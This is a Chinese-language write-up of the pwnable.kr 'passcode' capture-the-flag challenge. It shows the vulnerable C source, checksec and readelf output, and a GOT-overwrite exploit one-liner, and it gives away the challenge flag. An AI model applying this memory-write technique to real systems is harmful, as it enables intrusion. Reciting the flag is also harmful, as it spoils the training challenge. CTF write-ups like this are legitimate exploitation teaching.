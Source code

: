 ```yaml
---
title: "pwnable.kr passcode"
Categories:
    - Pwn
tag: 
    - Pwn
    - Writeup
    - Pwnable.kr
---
```


> Mommy told me to make a passcode based login system.  
> My initial C code was compiled without any error!  
> Well, there was some compiler warning, but who cares about that?  
>
> ssh passcode@pwnable.kr -p2222 (pw:guest)  

<!-- more -->

源代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

我们可以很明显的看见 login() 函数中 scanf() 写错了。`scp -P 2222 passcode@pwnable.kr:passcode ./` 把二进制文件down下来看了看发现 passcode1 就是 name[] 的最后4个字节。因此我们有了一次向任意地址写入4 bytes的机会。

![img_1](/images/posts/pwnable.kr/passcode_1.png)
![img_2](/images/posts/pwnable.kr/passcode_2.png)

用 checksec 查看一下保护。

```shell
root@ubuntu:~# checksec passcode
[*] '/root/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我的想法是通过修改GOT表来控制EIP，GOT表的相关知识可以看看我写的[GOT与PLT](https://demonsin.github.io/2018/06/GOT%E4%B8%8EPLT/)。

我们将目标代码 `system("/bin/cat flag");` 的地址覆盖掉GOT表中 printf() 的地址。这样接下来调用 printf() 时就会跳到目标代码去了。

用 `readelf -r passcode` 看见 printf() 在 GOT表中的地址为 0x0804a000。在 IDA 中看到目标地址为 0x080485E3，即十进制的 134514147。

```shell
root@ubuntu:~# readelf -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

![img_3](/images/posts/pwnable.kr/passcode_3.png)

exp: `python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | ./passcode`

flag: Sorry mom.. I got confused about scanf usage :(